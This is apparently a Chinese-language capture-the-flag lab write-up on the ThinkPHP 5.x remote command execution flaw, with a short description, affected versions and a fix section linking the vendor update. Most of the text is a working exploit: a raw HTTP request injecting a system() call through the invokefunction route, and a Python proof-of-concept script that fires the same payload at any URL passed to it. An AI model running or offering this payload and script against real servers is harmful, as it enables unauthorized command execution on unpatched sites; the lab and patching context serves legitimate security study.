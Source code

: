 # thinkphp_5 命令执行 by [xiajibaxie](https://github.com/xiajibaxie)

## 一、漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 二、影响版本

ThinkPHP 5.x  < ThinkPHP 5.1.31<=  ThinkPHP 5.0.23

## 三、利用流程

靶场基本信息

靶场地址：`10.10.11.20:19809`

靶场名称: Thinkphp5

靶场描述: Thinkphp5 命令执行

尝试 poc，查询`/tmp`目录下的`flag`

```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 10.10.11.20:19809
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07be81f78d509865b1926609964cf0ca=admin%7C1590115158%7CN20HCrC96zVmXgHk0BlnkROKbvQd4vf8nAxZoe2G7Uf%7C24b3491dd375a352ed0e49eb87acb2af156ffc23524cdc515962f170639193d5; wp-settings-time-1=1589947833
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
```

执行结果成功

![exp](./exp.jpg)



尝试编写 poc

```python
import requests
import sys

def run(ip):
    poc = "/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp"  
    header = {'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0', }
    url = ip+poc
    req = requests.get(url, header)
    if req.status_code == 200:
        if "flag" in req.text:
            print(req.text)
if __name__ == '__main__':
    url = sys.argv[1]
    if url[:4] != "http":
        url = "http://"+url

    run(url)
```



![py-tool](./py-tool.jpg)

复制结果提交，通关

## 四、修复方案

1、官网已发布安全更新，用户可以通过网址[http://www.thinkphp.cn/topic/60400.html ](http://www.thinkphp.cn/topic/60400.html)获得.

2、建议使用以上 ThinkPHP5  开发的内容管理系统的用户及时检查是否存在该漏洞。